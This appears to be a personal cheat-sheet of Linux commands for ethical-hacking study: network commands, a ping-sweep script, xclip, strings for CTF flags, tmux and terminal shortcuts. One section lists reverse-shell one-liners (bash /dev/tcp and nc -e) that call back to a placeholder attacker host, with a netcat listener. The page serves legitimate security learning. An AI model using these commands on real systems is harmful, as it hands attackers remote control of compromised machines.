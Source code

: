 # Useful commands and tools on Linux

## Network commands

- `ifconfig`
- `ip a`
- `iwconfig` wireless connection
- `arp -a`
- `ip n`
- `ip r` 
- `route` get the routing table
- `ping IP-ADD-OR-HOST` check if a host is up
- `netstat` 

### Pingsweep in bash

- On his course Practical Ethical Hacking Heath Adams shares this script that is really convenient to make an ip sweep.
```bash
#!/bin/bash
if [ "$1" == "" ]
then
echo "You forgot an IP address!"
echo "Syntax: ./ipsweep.sh 192.168.1"

else
for ip in `seq 1 254`; do
ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &
done
fi
```
- To automate this further we could add an nmap script to run on the alive ip found.

## xclip

### Install

- `sudo apt install xclip`

### Use

xclip is a tool that can allow you to get any output in you clipboard.  
Let's say you have a big input to copy and do not want to mess up with the mouse, you can use xclip.
- `cat myverybigfile | xclip -sel clipboard` will send the content of myverybigfile to the clipboard

## Strings

Strings will print human readable chars of a file. And for a CTF if we are looking for a specific string we can pipe it to grep
- `strings -e l file | grep -i FLAG` the `-e l` will select the encoding l is for 16-bit littleendian
- `strings file` is the basic use of the command

## TMUX

"tmux is a terminal multiplexer. It lets you switch easily between several programs in one terminal, detach them (they keep running in the background) and reattach them to a different terminal." Learn more about [tmux](https://github.com/tmux/tmux/wiki).

- `tmux new -s sessionName` create an join a new session
- `ctrl+b d` detach a session
- `tmux ls` list existing sessions
- `ctrl+b x` kill current session
- `tmux a -t sessionName` or `tmux a -t sessionId` join an existing session
- `tmux  ctrl+b pageup` to scroll and `q` to leave scroll mode

## Which architecture

- `lscpu` will tell you if you are 32 or 64
- `uname -m` similar but less verbose

## Useful shortcuts to use the terminal quickly

- `Ctrl+U` - clear all the current line from the end to the beginning only if the cursor is at the end of the line.
- `Ctrl+Y` - recall the cleared line 
- `Ctrl+K` - clear all the current line from the beginning to the end only if the cursor is at the beginning of the line.
- `Ctrl+W` - clear the previous word in the current line. For example if you have typed a command like `git diff /path/to/some/file` and you want to delete just the last parameter to the command, Ctrl+W is very useful.
- `Ctrl+E Ctrl+U` - move the cursor to the end of the line and clear all the current line from the end to the beginning.
- `Ctrl+A Ctrl+K` - move the cursor at the beginning of the line and clear all the current line from the beginning to the end.
- `Ctrl+C` - cancel the current command line, which implies clear all the current line no matter where the cursor is. (you can't recall the cleared line anymore).
- `Alt+Shift+#` - comment the current line, keep it in the history and bring up your prompt on a new line.
- `Ctrl+Shit+C` - copy something you previously selected
- `Ctrl+Shit+V` - paste something
- `Home` - Go to the begining of your prompt 
- `End` - Go to the end of your prompt

## Launch shells from a terminal

- Say we have a way through root and we need to get a reverse shell here are helpfuls command
  - `/bin/bash -i >& /dev/tcp/IP-OF-YOUR-KALI/4444 0>&1`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/bash`
  - `nc IP-OF-YOUR-KALI 4444 –e /bin/sh`
- *Note: We have to set a listener prior to this with `rlwrap nc -lvp 4444`*

## Permissions cheat sheet

![image](https://user-images.githubusercontent.com/96747355/175057144-3baa417c-db0b-4709-af0d-eb370d222c39.png)  
Source: [Chmod tutorial by Ryan Morrison](https://medium.com/@razl/chmod-tutorial-ce4386a3ce0c)

## Explainshell.com

- [This website](https://explainshell.com/) is relly helpful to understand what a specific linux command does. Here is an example with `rm -rf file`  
![image](https://user-images.githubusercontent.com/96747355/175054655-9a49193f-38a3-4cc7-92dc-e1d6f716aaab.png)

## Resources

{% embed url="https://askubuntu.com/questions/470966/shortcut-to-clear-command-line-terminal" %} Shortcut to clear command line terminal {% endembed %}
